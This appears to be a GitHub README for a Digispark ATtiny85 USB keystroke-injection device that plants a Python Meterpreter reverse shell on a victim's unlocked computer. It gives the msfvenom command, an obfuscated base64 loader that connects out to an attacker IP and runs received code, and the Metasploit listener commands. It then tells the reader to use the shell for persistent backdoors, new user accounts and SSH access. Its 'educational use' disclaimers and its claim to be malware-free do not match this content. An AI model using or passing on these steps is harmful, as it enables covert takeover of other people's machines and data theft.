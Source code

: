 # Digispark ATTINY85 Python Reverse Shell
Developer: Anthony A. Castor

This Source does not give any warranty please use at your own risk </br>
This is only for educational use.. use this tutorial at your own risk.</br>
Great power comes with great responsibility</br>

Digispark ATTINY85 Python Reverse Shell </br>

This application is free of virus or malware </br>

<h3>Software Requirment </h3>
Andruino Editor<br/>
Digispark<br/>
Kali Linux<br/>
Python 2.x<br/>

<h3>Online Application</h3>
Distribution itch(Web and Desktop): https://goo.gl/Wq1nuD </br>
Distribution Google Play: https://goo.gl/uKIIr4 </br>
Distribution Itunes AppStore: https://goo.gl/54yJPi </br>
Distribution Amazon Store: https://goo.gl/RUp1Od </br>
Distribution Windows Store: https://goo.gl/rCxsH6   (No Direct link to Dev Page) </br>
Distribution WearVR: https://goo.gl/y0X1nR  (No Direct link to Dev Page) </br>

<h3>More Information and Demo Videos </h3>
Facebook: https://goo.gl/vvDSIL </br>
Linkedin: https://goo.gl/c9Fh6n </br>
YouTube: https://goo.gl/BFZ7C5 </br>
StackOverFlow: https://goo.gl/J1hFqL </br>
Github: https://goo.gl/jPHFPe </br>


<h3>Metasploit: Creting the Payload</h3>
This part will be done in Kali Linux</br>
We have to create a code which when executed in the victims machine initiates a reverse tcp connection. In the Terminal, execute the below command.</br>

msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP ADDRESS OF YOUR MACHINE exp(192.168.1.1)> LPORT=<PORT FOR REVERSE SHELL TO CONNECT ON exp(9999)> R > pythonpayload.py</br>


This will create a payload named pythonpaload.py.</br>
The contents of the file looks somewhat like this</br>

import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ1Y3QKcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmNvbm5lY3QoKCcxMC45LjcuMjA3Jyw5MDAwKSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==')))</br>

Now open that file and copy all the contents in the file to the "DigiKeyboard.println("Paste the python code here");"</br>

<h3>Setting Up the Listener</h3>
Next we have to start the listener which will wait for incoming connections in the given port. Fire up metasploit and execute the below codes in order.</br>


msfconsole</br>
use multi/handler</br>
set PAYLOAD python/meterpreter/reverse_tcp</br>
set LHOST <IP ADDRESS OF YOUR MACHINE exp(192.168.1.1)> </br>
set LPORT <PORT FOR REVERSE SHELL TO CONNECT ON exp(9999)> </br>
exploit </br>

This will start the listener.</br>

<h3>Launch the Attack </h3>
Now all you have to do is connect this digispark to our Victims unlocked machine. </br>
All you need is a 10 second window. All the codes will run in 5 seconds. </br>

Once you get the shell, you can do almost anything with that; create a persistent back door, upload or download files, create another user and provide it SSH access, possibilities are endless. </br>


<h3>Note</h3>
This is only for educational use.. use this tutorial at your own risk.</br>
Great power comes with great responsibility</br>